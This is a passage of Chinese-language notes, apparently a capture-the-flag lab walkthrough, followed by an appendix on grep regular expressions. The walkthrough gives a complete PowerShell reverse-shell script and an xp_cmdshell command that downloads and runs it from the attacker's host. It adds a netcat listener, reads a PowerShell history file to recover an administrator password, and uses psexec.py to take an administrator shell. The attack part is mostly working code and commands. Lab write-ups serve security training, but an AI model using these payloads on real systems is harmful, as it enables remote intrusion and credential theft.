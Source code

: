 ## 远程代码执行

### 准备shell

通过whoami命令可以看到当前登录的用户并没有管理员权限，创建`shell.ps1`

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

### shell连接配置

- python启动一个极简版的http服务器`python3 -m http.server 80`
- 使用`nc -lnvp 443`监听443端口（`shell.ps1`要连接的端口）
- 配置防火墙，允许本机80和443端口被目标机shell连接`ufw allow from 10.10.10.27 proto tcp to any p[ort 80,443`

### shell连接

执行`xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");`

### 权限提升

执行`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`以访问powershell命令历史记录，发现机器使用者以administrator身份开启`backups`文件夹的共享，并得知administrator的密码

使用工具脚本`psexec.py`获取一个高权限shell，`psexec.py administrator@10.10.10.27`

最后登入目标机，找到flag即可（位于administrator桌面）

## 附录A grep命令正则表达式、扩展正则表达式

- 把正则再次记录一下，方便以后翻阅查找
- 匹配字符
  - `.` ：任意一个字符。
  - `[abc]` ：表示匹配一个字符，这个字符必须是abc中的一个
  - `[a-zA-Z]` ：表示匹配一个字符，这个字符必须是a-z或A-Z这52个字母中的一个
  - `[^123]` ：匹配一个字符，这个字符是除了1、2、3以外的所有字符。
  - 对于一些常用的字符集，系统做了定义：
  - `[A-Za-z]` 等价于 `[[:alpha:]]`
  - `[0-9]` 等价于 `[[:digit:]]`
  - `[A-Za-z0-9]` 等价于 `[[:alnum:]]`
  - tab,space 等空白字符 `[[:space:]]`
  - `[A-Z]` 等价于 `[[:upper:]]`
  - `[a-z]` 等价于 `[[:lower:]]`
  - 标点符号 `[[:punct:]]`
- 匹配次数：
  - `\{m,n\}` ：匹配其前面出现的字符至少m次，至多n次。
  - `\?` ：匹配其前面出现的内容0次或1次，等价于`\{0,1\}`。
  - `*` ：匹配其前面出现的内容任意次，等价于`\{0,\}`，所以 `.*` 表述任意字符任意次，即无论什么内容全部匹配
- 位置锚定：
  - `^` ：锚定行首
  - `$` ：锚定行尾。技巧：`^$`用于匹配空白行。
  - `\b`或`\<`：锚定单词的词首。如"\blike"不会匹配alike，但是会匹配liker
  - `\b`或`\>`：锚定单词的词尾。如"\blike\b"不会匹配alike和liker，只会匹配like